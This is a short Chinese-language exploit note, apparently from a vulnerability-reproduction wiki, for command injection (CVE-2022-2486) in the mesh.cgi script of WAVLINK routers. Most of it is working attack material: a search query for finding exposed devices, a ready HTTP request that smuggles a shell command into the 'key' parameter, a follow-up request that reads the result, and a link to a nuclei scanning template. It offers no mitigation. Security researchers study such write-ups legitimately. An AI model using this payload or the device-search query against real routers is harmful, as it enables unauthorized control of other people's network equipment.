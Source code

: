 # WAVLINK mesh.cgi命令执行漏洞（CVE-2022-2486）

# 一、漏洞简介
WAVLINK是中国睿因科技（WAVLINK）公司开发的一款路由器，该系统mesh.cgi文件存在命令执行漏洞，攻击者可通过该漏洞获取服务器权限。包含型号WN530HG4、WN531G3、WN572HG3、WN535G3、WN575A4等。

# 二、影响版本
+ wavlink 路由器

# 三、资产测绘
+ hunter`web.body="firstFlage"`
+ 特征

![1703226837131-abc67852-1626-482a-982b-2f8f69837f2c.png](./img/2z5YOmq5xdN4GgtQ/1703226837131-abc67852-1626-482a-982b-2f8f69837f2c-764354.png)

# 四、漏洞复现
```java
GET /cgi-bin/mesh.cgi?page=upgrade&key=';ls>./1.txt;' HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![1703227123408-ad76b97b-fbb5-48b3-a932-877f8d037798.png](./img/2z5YOmq5xdN4GgtQ/1703227123408-ad76b97b-fbb5-48b3-a932-877f8d037798-976428.png)

获取命令执行结果

```java
GET /cgi-bin/1.txt HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![1703227153612-9f8d4f5b-341e-4c8a-bfed-f618c459f555.png](./img/2z5YOmq5xdN4GgtQ/1703227153612-9f8d4f5b-341e-4c8a-bfed-f618c459f555-527638.png)

nuclei脚本

[wanlink-router-mesh-cgi-rce.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/1622799/1709222231422-206fa714-944a-44f8-b5df-ab0069039061.yaml)



> 更新: 2024-02-29 23:57:11  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/wnwb9zre4ushwzb8>